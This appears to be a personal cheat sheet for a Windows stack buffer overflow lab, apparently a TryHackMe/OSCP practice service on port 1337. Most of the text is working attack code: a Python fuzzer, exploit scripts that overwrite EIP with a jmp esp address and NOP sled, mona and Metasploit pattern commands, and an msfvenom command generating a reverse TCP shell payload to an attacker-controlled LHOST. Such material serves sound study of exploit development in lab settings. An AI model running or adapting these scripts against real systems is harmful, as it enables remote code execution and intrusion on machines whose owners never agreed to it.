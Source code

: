 # Buffer Overflow


## Buffer Overflow - Windows

## **Netcat can be used to find segmenatation fault and crash...**

1. Set working folder for mona.

**!mona config -set workingfolder c:\mona\%p**
  
2. Fuzz number of bytes until application crashed.

**!mona findmsp -distance <> **

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

3. Control EIP, create a pattern and determine the offset. Add 400 bytes on the crashed bytes.

**/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600**

```
import socket

ip = "10.10.224.99"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

**/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 600 -q **


!mona findmsp -distance <numberofbytescreated>

4. Determine badchars. Create \x00 to \xff and look for missing character.
  **Note: Remember that badchars can affect the next byte as well!**

**!mona bytearray -b "\x00"**


import socket

ip = ""
port = 

prefix = b"OVERFLOW1 "
offset = 0
overflow = b"A" * offset + b"B" * 4
badchars =(
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
retn = b""
padding = b""
payload = b""
postfix = b"C" * (<numberofbytes>-(offset+4+len(badchars)))

buffer = prefix + overflow + badchars + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")


**!mona compare -f C:\mona\oscp\bytearray.bin -a**

5. Search for jmp esp avoiding the badchars.

**!mona jmp -r esp -cpb "\x00"**

6. Create your payload using msfvenom.

import socket
import struct

ip = "10.10.70.219"
port = 1337

prefix = b"OVERFLOW7 "
offset = 1306
#390-dummy 
overflow = b"A" * offset 
#0x625011af : jmp esp   
retn = struct.pack("I",0x625011af)
padding = b"\x90"*21
payload = b""
postfix = b"C" * (<numberofbytes>-(offset+4+len(payload+padding)))

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")


**msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py**  

   
